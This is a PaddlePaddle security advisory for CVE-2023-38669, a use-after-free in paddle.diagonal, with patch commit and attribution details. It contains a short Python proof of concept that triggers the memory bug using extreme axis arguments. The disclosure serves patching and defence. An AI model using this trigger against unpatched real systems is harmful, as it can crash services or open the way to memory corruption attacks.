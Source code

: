 ## PDSA-2023-001: Use after free in paddle.diagonal

### CVE Number

CVE-2023-38669

### Impact

Use after free in `paddle.diagonal`. The PoC is as follows:

```python
import paddle
import numpy as np
from paddle import diagonal

x = paddle.to_tensor(np.random.uniform(-10, 10, [1, 1, 1, 1]).astype(np.int64))
offset = paddle.to_tensor(np.random.uniform(-10, 0, []).astype(np.int32))
axis1 = paddle.to_tensor(np.random.uniform(-1000000, 0, []).astype(np.int32))
axis2 = paddle.to_tensor(np.random.uniform(-10000000, 0, []).astype(np.int32))

diagonal(x, offset, axis1, axis2)
```

### Patches

We have patched the issue in commit [43981874f5e1683b855eab871092fa9be58d6a44](https://github.com/PaddlePaddle/Paddle/commit/43981874f5e1683b855eab871092fa9be58d6a44).
The fix will be included in PaddlePaddle 2.5.0.

### For more information

Please consult [our security guide](../../SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution

This vulnerability has been reported by Tong Liu of ShanghaiTech University.
